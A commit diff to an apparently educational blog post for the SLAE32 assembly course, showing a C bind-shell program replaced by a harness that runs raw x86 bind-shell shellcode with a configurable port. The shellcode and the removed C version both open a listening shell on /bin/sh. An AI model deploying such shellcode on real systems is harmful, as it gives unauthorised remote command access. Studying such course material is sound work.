

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md, in a window 1280 px wide and 1400 px high, scrolled down 12902 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
SLAE32 - Assignment #1

````diff
--- a/_posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md
+++ b/_posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md
@@ -447,30 +447,42 @@ The following code utilizes the shellcode created from the assembly code above.
 </p>
 
 ```c
-#include <sys/socket.h>
-#include <sys/types.h>
+#include <stdio.h>
+#include <stdlib.h>
+#include <string.h>
 #include <netinet/in.h>
-#include <string.h>
-#include <stdio.h>
 
-#define PORT 1234
+#define PORT 29 // 0xd204 --> \x04\xd2
 
-int main()
-{
-        int resfd, sockfd;
-        struct sockaddr_in server;
-        sockfd = socket(AF_INET, SOCK_STREAM, 0);
-        server.sin_family = AF_INET;
-        server.sin_port = htons(PORT); // convert into network byte order
-        server.sin_addr.s_addr = INADDR_ANY; // 0.0.0.0
-        bind(sockfd, (struct sockaddr *) &server, sizeof(server));
-        listen(sockfd, 0) ;
-        resfd = accept(sockfd, NULL, NULL);
-        dup2(resfd, 2);
-        dup2(resfd, 1);
-        dup2(resfd, 0);
-        execve("/bin/sh", NULL, NULL);
-        return 0;
+int main(int argc, char* argv[]) {
+
+unsigned char shellcode[] = \
+"\x31\xc0\x31\xdb\x31\xd2\x31\xf6\xb0"
+"\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1"
+"\xcd\x80\x89\xc6\xb0\x66\xfe\xc3\x52"
+"\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a"
+"\x10\x51\x56\x89\xe1\xcd\x80\x52\x56"
+"\x89\xe1\x83\xc3\x02\xb0\x66\xcd\x80"
+"\xb0\x66\xfe\xc3\x52\x52\x56\x89\xe1"
+"\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd"
+"\x80\x41\x80\xf9\x02\x7e\xf6\x31\xc0"
+"\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62"
+"\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89"
+"\xe1\xb0\x0b\xcd\x80";
+
+if (argc <= 1) {
+        printf("[!] Usage: %s <port>\n\n", argv[0]);
+        return -1;
+}
+// provide binary form of the port
+unsigned int port = htons(atoi(argv[1]));
+// copy the new port in the right shellcode offset 29 bytes from the beginning of the shellcode
+memcpy(&shellcode[PORT], &port, 2);
+
+printf("[!] Length:  %d\n", strlen(shellcode));
+int (*ret)() = (int(*)())shellcode;
+
+ret();
 }
 ```
 
````
